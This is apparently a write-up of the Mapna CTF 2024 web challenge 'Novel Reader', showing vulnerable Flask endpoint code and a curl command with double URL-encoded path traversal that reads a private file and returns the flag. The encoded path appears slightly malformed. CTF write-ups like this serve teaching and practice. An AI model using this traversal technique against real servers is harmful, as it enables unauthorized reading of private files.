 # Novel Reader (web) from Mapna CTF 2024

There were two web challenges called Novel Reader 1 and Novel Reader 2. Here is my writeup of how I solved both of these challenges.

For the first part, we look at the source code defining the /api/read endpoint. We see that we are able to specify a path name. This makes me think this is an LFI challenge. This is when we exploit the fact that every directory has a .. directory that points to the parent directory. 
```
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```
We add a couple "../"s to get to a parent directory before adding private/A-Secret-Tale.txt to our URL to get the contents of the A-Secret-Tale.txt file. I used curl to pass in our cookie (called session) and to get the contents of the URL we specified. One more thing I learned is that URLs are encoded in a certain way. This means we can't have . or / in our URL like we usually do. All I had to do was run our URL through a URL encoder twice to get the following command
```
curl -b "session=[insert a long string of letter and numbers that our session cookie is set to]" http://3.64.250.135:9000/api/read/public/%252F%252E%252E%252F%private%252FA-Secret-Tale.txt
```
This returns the contents of A-Secret-Tale.txt along with the string '... Charge your account to unlock more of the novel!' concatenated to our flag
```
{"msg": "Once upon a time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!", "success":true}
```

